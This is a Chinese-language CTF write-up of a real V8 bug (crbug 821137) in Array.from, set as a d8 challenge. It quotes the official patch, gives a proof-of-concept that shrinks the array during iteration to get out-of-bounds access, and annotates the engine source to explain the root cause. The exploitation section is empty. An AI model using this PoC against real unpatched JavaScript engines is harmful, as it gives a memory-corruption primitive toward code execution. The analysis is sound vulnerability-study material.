

## 前情提要
题目信息：

```
Roll a d8 and win your game.

Last year, hackers successfully exploited Chakrazy. This time, we came back with d8 powered by V8 JavaScript engine.

You can download relevant material here.

This might only be helpful to Google employees... or is it? https://crbug.com/821137
```
这是一个cve的real world题目

官方补丁：
```
diff --git a/src/builtins/builtins-array-gen.cc b/src/builtins/builtins-array-gen.cc
index dcf3be4..3a74342 100644
--- a/src/builtins/builtins-array-gen.cc
+++ b/src/builtins/builtins-array-gen.cc
@@ -1945,10 +1945,13 @@
   void GenerateSetLength(TNode<Context> context, TNode<Object> array,
                          TNode<Number> length) {
     Label fast(this), runtime(this), done(this);
+    // TODO(delphick): We should be able to skip the fast set altogether, if the
+    // length already equals the expected length, which it always is now on the
+    // fast path.
     // Only set the length in this stub if
     // 1) the array has fast elements,
     // 2) the length is writable,
-    // 3) the new length is greater than or equal to the old length.
+    // 3) the new length is equal to the old length.

     // 1) Check that the array has fast elements.
     // TODO(delphick): Consider changing this since it does an an unnecessary
@@ -1970,10 +1973,10 @@
       // BranchIfFastJSArray above.
       EnsureArrayLengthWritable(LoadMap(fast_array), &runtime);

-      // 3) If the created array already has a length greater than required,
+      // 3) If the created array's length does not match the required length,
       //    then use the runtime to set the property as that will insert holes
-      //    into the excess elements and/or shrink the backing store.
-      GotoIf(SmiLessThan(length_smi, old_length), &runtime);
+      //    into excess elements or shrink the backing store as appropriate.
+      GotoIf(SmiNotEqual(length_smi, old_length), &runtime);

       StoreObjectFieldNoWriteBarrier(fast_array, JSArray::kLengthOffset,
                                      length_smi);
```
在补丁里可以看到，他将lessthan修改为了notequal，所以情况很可能和>的情况有关，我们接着从poc入手。

cve poc文件
```
let oobArray = [1.1];
let maxSize = 1028 * 8;
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
  {
    counter : 0,
    next() {
      let result = this.counter++;
      if (this.counter > maxSize) {
        oobArray.length = 1;
        return {done: true};
      } else {
        return {value: result, done: false};
      }
    }
  }
) });
console.log(oobArray)
```
先简单介绍poc中的内容：
```
.call的作用：https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Function/call

这里相当于用一个函数代替了.call中的this。简单来说就是一般call是用来继承父类的内容，而对于Array.from this一般是一个new array，这里相当于用oobArray来代替了new array，作为之后操作使用的array。

console.log(Array.from("abcde"));
-> a,b,c,d,e
console.log(Array.from([1,2,3], x => x+x));
-> 2,4,6
可以看到array.from可以根据迭代对象或数组生成一个新的数组，而且可以自己定义生成方法。


Symbol.iterator：
d8> Symbol.iterator
Symbol(Symbol.iterator)
d8> a = [1,2,3]
[1, 2, 3]
d8> iter = a[Symbol.iterator]()
[object Array Iterator]
d8> iter.next()
{value: 1, done: false}
d8> iter.next()
{value: 2, done: false}
d8> iter.next()
{value: 3, done: false}
d8> iter.next()
{value: undefined, done: true}
```

## Root case：

```
TF_BUILTIN(ArrayFrom, ArrayPopulatorAssembler) {

  ...

  BIND(&iterable);
  {
    ...
    // Construct the output array with empty length.
    array = ConstructArrayLike(context, args.GetReceiver());

    ...
    Goto(&loop);

    BIND(&loop);
    {
      // 判断迭代是否结束
      // Loop while iterator is not done.
      TNode<Object> next = CAST(iterator_assembler.IteratorStep(
          context, iterator_record, &loop_done, fast_iterator_result_map));
      TVARIABLE(Object, value,
                CAST(iterator_assembler.IteratorValue(
                    context, next, fast_iterator_result_map)));

      ...
      // 将得到的结果存入array
      // Store the result in the output object (catching any exceptions so the
      // iterator can be closed).
      Node* define_status =
          CallRuntime(Runtime::kCreateDataProperty, context, array.value(),
                      index.value(), value.value());
      GotoIfException(define_status, &on_exception, &var_exception);
      
      // [1] -> !!! 重点：由于在迭代过程中会不断向array中存入内容，所以它的大小是会不断随着迭代来增加的。
      
      // 索引加1
      index = NumberInc(index.value());

      ...
      Goto(&loop);
    }

    //迭代结束
    BIND(&loop_done);
    {
      //将迭代次数赋值给length变量
      length = index;
      Goto(&finished);
    }
    ...
  }

  ...
  BIND(&finished);

  // 调用GenerateSetLength，将array和迭代次数作为参数
  // Finally set the length on the output and return it.
  GenerateSetLength(context, array.value(), length.value());
  args.PopAndReturn(array.value());
}


  void GenerateSetLength(TNode<Context> context, TNode<Object> array,
                         TNode<Number> length) {
    Label fast(this), runtime(this), done(this);
    // Only set the length in this stub if
    // 1) the array has fast elements,
    // 2) the length is writable,
    // 3) the new length is greater than or equal to the old length.

    // 1) Check that the array has fast elements.
    // TODO(delphick): Consider changing this since it does an an unnecessary
    // check for SMIs.
    // TODO(delphick): Also we could hoist this to after the array construction
    // and copy the args into array in the same way as the Array constructor.
    BranchIfFastJSArray(array, context, &fast, &runtime);

    BIND(&fast);
    {
      TNode<JSArray> fast_array = CAST(array);
     
      TNode<Smi> length_smi = CAST(length);
    
      TNode<Smi> old_length = LoadFastJSArrayLength(fast_array);
      CSA_ASSERT(this, TaggedIsPositiveSmi(old_length));

      EnsureArrayLengthWritable(LoadMap(fast_array), &runtime);
      
      // 3) If the created array already has a length greater than required,
      //    then use the runtime to set the property as that will insert holes
      //    into the excess elements and/or shrink the backing store.
      GotoIf(SmiLessThan(length_smi, old_length), &runtime);

// [2] -> 重要！！！ 这里是迭代次数>原array长度的情况，直接将array的长度修改为了迭代的次数。
      StoreObjectFieldNoWriteBarrier(fast_array, JSArray::kLengthOffset,
                                     length_smi);
      Goto(&done);
    }

    BIND(&runtime);
    {
      CallRuntime(Runtime::kSetProperty, context, static_cast<Node*>(array),
                  CodeStubAssembler::LengthStringConstant(), length,
                  SmiConstant(LanguageMode::kStrict));
      Goto(&done);
    }

    BIND(&done);
  }
};
```
结合[1] [2]来分析一下，问题出在了开发者认为在迭代的过程中，array的大小会随迭代不断增大，也就意味着，array最小也会等于迭代次数，应该不会出现array<迭代次数的情况，但是他忽略了一个很重要的问题就是我们如果提供了array，就可以在迭代的过程中修改array的大小，使得正在迭代的数组长度缩小，那么就会导致数组多余的空间被释放，但是在GenerateSetLength中，又将array.length直接改写为较大的length_smi（迭代次数），导致长度属性值大于实际长度，造成越界访问。

可以简单写个test来测试一下三种情况：
```
var a = [1,2,3];
//var b = [0,0,0,0,0,0,0,0,0,0];
var b = [0,0,0];
Array.from.call(function() { return b }, {[Symbol.iterator] : _ => (
  {
    counter : 0,
    next(){
        console.log(b.length+"  "+b);
        return{
            value : a[this.counter], done : this.counter++ > a.length-1 ? true : false
        };
    }
  }
) });
```

无非就三种情况：
array大于迭代次数：

array等于迭代次数：

array小于迭代次数：



## exploite
